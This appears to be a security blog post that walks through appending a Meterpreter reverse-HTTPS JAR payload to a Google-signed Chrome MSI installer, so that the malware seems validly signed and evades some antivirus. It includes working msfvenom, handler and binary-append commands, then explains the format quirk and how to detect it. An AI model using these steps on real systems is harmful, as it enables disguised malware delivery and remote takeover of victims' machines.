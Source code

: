 ```yaml
---
title: "Making Meterpreter Look Google Signed"
date: 2019-01-18
draft: false
tags:
    - meterpreter
    - chrome
    - msfvenom
    - jar
    - metasploit
---
```


In this post I’ll use some of the information made public by VirusTotal in a [recent blog post](https://blog.virustotal.com/2019/01/distribution-of-malicious-jar-appended.html) and show how you can easily create a Metasploit Meterpreter payload and append it to a signed MSI file. This will allow you to leverage the code signing from the MSI file to make your payload appear legitimately signed by Google, Inc. After I’ll cover a bit of discussion on why this technique is dangerously significant and how to investigate for its use.
We need a few prerequisites to start-

- Msfvenom
- A Google Chrome Enterprise MSI installer file
- A handler to listen for your Meterpreter session

To start, we need a Meterpreter payload in Java Archive (JAR) form. We can get this using msfvenom:

```
msfvenom -p java/meterpreter/reverse_https LHOST=<metasploit host> -f jar -o meterpreter-https.jar
```

This will output a JAR file containing the Java Meterpreter payload establishing a reverse shell over HTTPS. The payload provides us encryption to obscure commands while blending in with other HTTPS traffic. Feel free to leave the default port option, 8443, unchanged in this example. If we examine this generated payload with VirusTotal, we can see it’s definitely malicious and not signed in any way.

[https://www.virustotal.com/#/file/28ccdc1cbfe54b185b8b5ba973f672cc7ac9a52a5e034dbaab2c42a4f1e05fd2/details](https://www.virustotal.com/#/file/28ccdc1cbfe54b185b8b5ba973f672cc7ac9a52a5e034dbaab2c42a4f1e05fd2/details)

![](/img/meterpreter-msi-jar/msfvenom-meterpreter-jar.png)

While here, go ahead and configure a handler to receive your Meterpreter session. In the Metasploit console, execute:

```
handler -p java/meterpreter/reverse_https -H 0.0.0.0 -P 8443
```

![](/img/meterpreter-msi-jar/msf-reverse-handler.png)

Now we can use a Windows command prompt (cmd.exe) and the copy command to append our JAR file to an existing, signed MSI file. If you insist on using Linux or macOS to stage the payload, you can probably do the same append using DD. For this exercise I chose a Google Chrome Enterprise MSI installer file.

```
copy /b GoogleChromeStandaloneEnterprise64.msi + meterpreter-https.jar GoogleChromeStandaloneEnterprise64.jar
```

This action performs a binary file copy, combining the MSI and JAR files together to create a new JAR file.

![](/img/meterpreter-msi-jar/copy-append-msi.png)


Now that the file exists, right-click and examine the file’s properties:

![](/img/meterpreter-msi-jar/signing-info.png)

If we examine the file’s properties with VirusTotal, we can see the digital signature still exists, but it’s not valid according to VT’s tools. As a bonus, the file is detected by far fewer AV technologies than just the raw, non-appended payload.

[https://www.virustotal.com/#/file/4937f7b7fbece98a3e95d94e67d56bbba6b8a28c0c9b678d0f605a9ba55acaae/details](https://www.virustotal.com/#/file/4937f7b7fbece98a3e95d94e67d56bbba6b8a28c0c9b678d0f605a9ba55acaae/details)

Now we can actually execute the payload by double-clicking. Assuming everything has gone correctly, Meterpreter will execute within Java and connect back to your handler.

![](/img/meterpreter-msi-jar/meterpreter-session.png)

From here you can move about the host with the privileges of whatever user executed the payload.

![](/img/meterpreter-msi-jar/ls-results.png)

At the end of this path, you’ve generated a Meterpreter payload that isn’t signed itself but appears to be signed thanks to a quirk introduced by interactions between MSI and JAR files.

## How Is This Possible?
This trick is possible due to an issue with the MSI file format disclosed by VirusTotal in [this blog post](https://blog.virustotal.com/2019/01/distribution-of-malicious-jar-appended.html). MSI files are compound storage files that resemble databases comprised of OLE streams. This means that the content of an MSI is not truly altered when appending data to the file. The OLE streams still exist within the file, and appended data exists outside those streams. Unfortunately, DFIR professionals are conditioned to playing by code signing rules for portable executables (PEs). In these cases, code signing is a method of ensuring executable code integrity from the publisher to the consumer. Changes to the PE file will cause a mismatch and invalidate the signing data. In the case of an MSI file, appending may not harm the original file’s integrity, so the signing information is still valid. The appended payload remains a stowaway.
When the file retains a MSI extension, it will open using Windows Installer/msiexec.exe. When the file gains a JAR extension, it will open with Java given its file association. When you inspect the file’s properties, the magic number/header bytes for the file identify it as a OLE Compound File, allowing tools to parse data within and read the digital signature.

But how can Java execute a MSI file? Even if it’s renamed? That’s the beautiful part of this technique! JAR files are glorified ZIP archive files. It turns out that Java and other tools that read ZIP data will read the data from the last bytes of a file toward the first, until it encounters ZIP header bytes. In this technique, the ZIP header will occur before the MSI content. So the original MSI is not processed by Java.

## Why Is This Significant?
This is significant because it challenges how we think about digital signatures and code signing. We’ve been conditioned to think a change to a file automatically invalidates a code signature. Instead we need to take into account the variable of individual file format. What matters is the integrity of signature-guaranteed content. We need to recognize that some file changes do not trespass into the guaranteed content. Thus, no integrity is violated.
This also presents another question- Can we reorient software and security controls to recognize when a file should not be associated with appended content? Some investigators and security tools use digital signatures to shortcut decisions on the legitimacy of software. Instead, signatures should be corroborating evidence in the legitimacy decision.

In addition, this technique shows us that traditional code signing is not the only way to generate a signed malicious payload. You can sit your payload next to something already signed if the file format allows.
What value does this give adversaries? I think the technique is best suited for payload delivery. Yes, an adversary may compress files for exfiltration into a ZIP archive and append it to a MSI file to bypass data loss protection controls. I don’t think that value significantly outstrips the use of packing and encryption to hide data in an obfuscated form for exfil.

## Detecting and Investigating
Detecting an appended payload during execution will likely be difficult. Endpoint detection and response tools will observe Java executing the payload, but will not show signature data of the payload itself. Behavioral detection will rely on the payload resembling traits of Java malware. AV technology will recognize file types, but depending on configurations and specifics may not recognize the appended payload. The best way to detect this? Look for Java executing JARs from user-writable folders with suspicious network connections and establishing persistence mechanisms.

Investigating appended payloads is light work with Sysinternals SigCheck after version 2.70. This tool will validate the MSI’s digital signature and flag when appended content is present. This functionality has also been added to VirusTotal. If you want to get the original appended payload and separate it from the MSI, you can use a hex editor and cut/paste bytes after the ZIP header into a new file.